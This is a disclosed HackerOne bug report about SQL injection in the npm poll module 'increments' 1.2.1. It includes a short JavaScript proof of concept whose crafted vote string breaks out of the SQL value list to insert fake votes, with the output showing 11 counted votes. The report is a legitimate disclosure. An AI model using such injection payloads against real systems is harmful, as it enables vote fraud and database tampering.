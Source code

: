 # [increments] sql injection

## Report Details
- **Report ID**: 508346
- **URL**: https://hackerone.com/reports/508346
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-03-12T10:40:01.889Z
- **Disclosed**: 2020-02-02T23:02:09.387Z

## Reporter
- **Username**: verichains
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report `SQL Injection` in `increments`.
It allows creating fake polls.

# Module

**module name:** `increments`
**version:** `1.2.1`
**npm page:** `https://www.npmjs.com/package/increments`

## Module Description

> Increment is a **database-driven** for creating  **polls** and taking **votes** for various options, candidates, or parties. Using MongoJS collections as a storage framework, Increments offers in-depth statistical data on generated polls.

## Module Stats

[45] downloads in the last week

# Vulnerability

## Vulnerability Description

This module does not escape voting data allowing attacker to create fake votes.

## Steps To Reproduce:

- `npm install increments`
- run poc:

```javascript
const increments = require('increments');
increments.setup('mysql://root:@localhost:3306/test');
increments.poll('fruits', [{name:'Apples'},{name:'Bananas'},{name:'Oranges'},{name:'Pears'}]);
increments.vote('fruits', 'Oranges","0","0","1","0","0","0","0","","0")'+',(123,"Oranges","0","0","1","0","0","0","0","","0")'.repeat(10)+'#');
increments.statistics('fruits', function(e, f) {
	console.log( f.projectedWinner );
	process.exit(0);
});
```

Output:
```
{ name: 'Oranges',
  id: 'oranges',
  color: undefined,
  count: 11,
  percentage: 100 }
```

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- MacOS
- 8.12.0
- 6.4.1

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

SQL Injection.

## Attachments
No attachments

